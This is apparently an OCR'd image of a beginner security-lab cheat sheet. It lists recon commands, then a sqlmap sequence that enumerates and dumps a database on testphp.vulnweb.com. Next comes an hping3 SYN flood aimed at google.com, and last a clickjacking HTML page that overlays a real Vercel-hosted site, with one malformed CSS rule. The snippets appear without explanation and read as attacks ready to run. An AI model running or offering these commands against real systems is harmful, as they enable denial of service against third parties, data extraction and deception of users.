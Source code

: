 # css

ping -c 5 1.1.1.1
whois example.com
nslookup example.com
traceroute 8.8.8.8
ifconfig

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts --columns
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts -C item --dump

sudo apt-get -y install hping3
sudo hping3 -S --flood -V -p 80 google.com

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking</title>
</head>
<style>
    iframe{
        opacity: 0.1;
    }
    button	        position: absolute;
        top: 485px;
        left: 175px;
    }
</style>
<body>
    <h2>Clickjacking Demo Page (iframe)</h2><br/>
    <iframe src="https://study-notion-frontend-wheat.vercel.app/" height="500px" width="500px"></iframe>
    <button>click me </button>
</body>
</html>
